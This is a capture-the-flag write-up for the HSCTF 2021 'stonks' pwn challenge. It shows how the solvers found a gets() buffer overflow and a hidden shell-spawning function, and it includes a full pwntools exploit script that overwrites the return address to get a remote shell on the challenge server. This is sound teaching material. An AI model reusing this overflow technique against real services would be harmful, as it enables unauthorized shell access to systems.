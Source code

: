 ```yaml
---
layout: load_md
title: The White Circle | Hsctf 2021 | stonks Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Hsctf 2021
parent: hsctf_2021
category: pwn
challenge: stonks
tags: "pwn, taz, twh, python"
date: 2021-06-20T00:00:00+00:00
last_modified_at: 2021-06-20T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Hsctf 2021</h1>

## stonks
> Solved By : Taz and thewhiteh4t

![](https://i.imgur.com/Xthi7zA.png)

* after disassembling :

![](https://i.imgur.com/sUMBjXD.png)

* vuln function disassembled :

![](https://i.imgur.com/u5piK7j.png)

* gets is used, lets calculate the offset at which it crashes :

```python
from pwn import *

p = process("./chal")
p.sendline(cyclic(200, n=8)) # n -> architecture | 8 -> 64bit
p.wait()

core = p.corefile
offset = cyclic_find(core.read(core.rsp, 8), n=8)
print(offset)
```

OUTPUT :

![](https://i.imgur.com/QLOSyKX.png)

* offset is 40

* finding all functions :

```
info functions
```

![](https://i.imgur.com/0WKx65a.png)

* when we checked `ai_debug` we found that it has a system call!

![](https://i.imgur.com/ONyEGVn.png)

* then we checked what its doing :

```
b main
run
jump ai_debug
```

OUTPUT :

![](https://i.imgur.com/PIRlX9z.png)

* it is executing `/usr/bin/dash` so we can get a shell if we can call ai_debug function

* Address of ai_debug :

![](https://i.imgur.com/GNc8x6K.png)

Exploit :

```python
#!/usr/bin/python3

from pwn import *

host = 'stonks.hsc.tf'
port = 1337
offset = 40
addr = 0x401258
ret = 0x4012f3

junk = b'A' * offset
le_num = p64(addr)
le_ret = p64(ret)
buffer = junk + le_ret + le_num

conn = remote(host, port)
conn.recvuntil('symbol:')
conn.sendline(buffer)
conn.interactive()
```

* Return address has been added because there is a stack alignment issue caused by LIBC present in Ubuntu i.e. the container running on the target

* Exploit was working locally but not remotely so we found this reddit thread

* https://www.reddit.com/r/securityCTF/comments/nbb5z2/buffer_overflow_works_fine_locally_but_not/

* Thanks to [Andr3](https://github.com/AndreaCarosi-7) and hiatus!

OUTPUT :

![](https://i.imgur.com/FN6LiSU.png)